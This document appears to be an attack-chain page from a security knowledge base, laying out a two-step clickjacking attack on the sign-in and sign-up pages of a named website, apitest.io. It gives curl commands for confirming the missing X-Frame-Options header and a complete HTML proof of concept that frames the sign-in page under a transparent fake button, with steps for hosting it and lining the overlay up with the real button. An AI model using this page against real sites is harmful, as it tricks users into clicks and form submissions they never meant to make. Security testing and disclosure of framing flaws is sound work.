

# Clickjacking Attack on APITest.IO via Missing X-Frame-Options Header

Multi-stage attack chain demonstrating a complete clickjacking workflow on APITest.IO.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools
- Local web server (e.g., Python's http.server)

### Target Environment

- Web platform
- Access to https://apitest.io sign-in, sign-up, and main pages
- No authentication required for inspection

### Initial Access Requirements

- Public internet access
- No credentials needed
- Ability to host a malicious HTML page

## Detailed Attack Procedures

### Step 1: Inspect HTTP Response Headers
procedure: [[procedures/Inspect-HTTP-Response-Headers-for-Framing-Protections]]

**Objective**: Identify the absence of X-Frame-Options header on target pages to confirm framing vulnerability.

**Instructions**: Use [[commands/curl-check-headers]] to fetch and inspect response headers for the sign-in, sign-up, and main domain pages:

```bash
curl -I https://apitest.io/sign-in
curl -I https://apitest.io/sign-up
curl -I https://apitest.io
```

Look for the absence of `X-Frame-Options` in the output. Alternatively, use browser developer tools to inspect network requests.

**Expected Output**: HTTP headers without `X-Frame-Options: DENY` or `SAMEORIGIN`, confirming pages can be iframed.

**Success Indicators**:
- No X-Frame-Options header present
- Pages load successfully in browser console checks

### Step 2: Create Clickjacking Proof-of-Concept
procedure: [[procedures/Create-Clickjacking-Proof-of-Concept]]

**Objective**: Embed the vulnerable pages in an iframe and overlay transparent malicious elements to demonstrate UI redressing.

**Instructions**: Create a local HTML file with an iframe embedding the target page and overlay a transparent div with a fake button. Serve it via a local server and open in a browser:

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking PoC</title></head>
<body>
  <iframe src="https://apitest.io/sign-in" style="opacity:0.5; z-index:1;"></iframe>
  <div style="position:absolute; top:100px; left:200px; z-index:2; background:transparent;">
    <button onclick="alert('Tricked!')">Fake Button</button>
  </div>
</body>
</html>
```

Host with `python -m http.server 8000` and navigate to http://localhost:8000. Adjust positions to overlay the real sign-in button.

**Expected Output**: Target page embeds in iframe without blocking; overlay tricks user into clicking the underlying button.

**Success Indicators**:
- Iframe loads without errors
- User interaction triggers unintended action on target page

## Attack Chain Summary

### Key Achievements

1. Confirmed missing X-Frame-Options on critical pages
2. Demonstrated iframe embedding and UI overlay
3. Highlighted potential for tricking users into form submissions or clicks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
